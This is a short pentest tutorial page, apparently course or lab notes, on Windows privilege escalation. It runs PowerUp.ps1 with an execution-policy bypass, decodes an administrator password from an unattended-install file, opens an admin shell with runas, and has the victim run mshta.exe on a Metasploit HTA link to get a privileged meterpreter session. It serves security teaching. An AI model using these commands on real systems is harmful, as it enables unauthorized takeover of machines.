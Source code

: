 # 4 - Windows File System Vulnerabilities

* Alternate Data Streams

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

### How to use PowerUp.ps1 script

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# traansfer to windows target.

# 2
# bypass powershell execution policy.
powershell -ep bypass

# 3
# import the module to the current session.
Import-Module .\PowerUp.ps1

# 4
# load the script
. .\PowerUp.ps1

# 5
# Invoke-PrivEscAudit checks and other checks
Invoke-PrivEscAudit
# we found some "Unattend installation .xml files" you could find something else.
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-29-12.png" alt=""><figcaption></figcaption></figure>

cat out the content, you get the administrator username and its encoded password.

Decode it with Powershell.

`$password='sdbsvdvvffvv'` - create a variable in powershell.

`$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))` - decode the password with powershell cmd.

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-39-12.png" alt=""><figcaption><p>decode password with PowerShell</p></figcaption></figure>

Now spawn a privileged cmd prompt session with the credentials using the "runas.exe" utility.

`runas.exe /user:Administrator cmd` - spawning cmd prompt shell.



Now open Metasploit in Kali

{% code overflow="wrap" lineNumbers="true" %}
```bash
# use the hta_server module
use exploit/windows/misc/hta_server
exploit

# it creates a 2 links, copy the local link
# http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# goto the victim pc, run "mshta.exe" utility with the malicious HTA server link in the spawned cmd prompt session.
mshta.exe http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# back in kali, we should get a privileged meterpreter session.
```
{% endcode %}





